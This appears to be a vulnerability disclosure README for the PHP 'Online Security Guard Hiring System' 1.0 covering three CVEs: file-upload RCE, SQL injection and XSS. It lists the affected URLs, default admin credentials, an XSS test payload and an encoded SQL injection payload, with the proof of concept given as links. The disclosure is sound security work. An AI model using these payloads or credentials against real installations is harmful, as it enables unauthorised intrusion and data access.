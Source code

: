 
# Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ EXPLOIT-AUTHOR : Noflag(CHT Security)
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ CVE ID: CVE-2023-36119、CVE-2023-39551、CVE-2023-39552
+ https://nvd.nist.gov/vuln/detail/CVE-2023-36119 -> CVSS 9.8 Unrestricted Upload of File with Dangerous Type
+ https://nvd.nist.gov/vuln/detail/CVE-2023-39551 -> CVSS 5.3 SQL Injection
+ https://nvd.nist.gov/vuln/detail/CVE-2023-39552 -> CVSS 3.4 Cross-Site Scripting (XSS)

**Affecr URL**
+ XSS
  + http://localhost/osghs/admin/admin-profile.php --> Admin Name
  + http://localhost/osghs/admin/search.php --> Search Booking
  + http://localhost/osghs/search-request.php -->  Search Booking
  + http://localhost/osghs/admin/view-booking-detail.php?bookingid=XXX 

payload -> <script>alert(1)</script> 

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/44e50c20-6d7f-454e-86ef-13814460ad2b)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/eb1b3b57-ba6e-4d7a-bccc-ad90a017e36a)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/340d324d-ee0a-4119-b4bf-dd0824ec0189)

+ SQL injection

payload -> <@hex_entities>9999&#x53;ELECT * FROM information_schema.tables<@/hex_entities>

+ http://localhost/osghs/admin/search.php

+ POC
  
https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/667cad95-bf9d-4636-9d7b-2145e1a68963

https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/deb3e42b-3a88-4270-b0ee-10c2a70ff1be



+ File Upload Vulnerability


https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/5c58eec7-7567-43d8-be6b-dce327edec9b





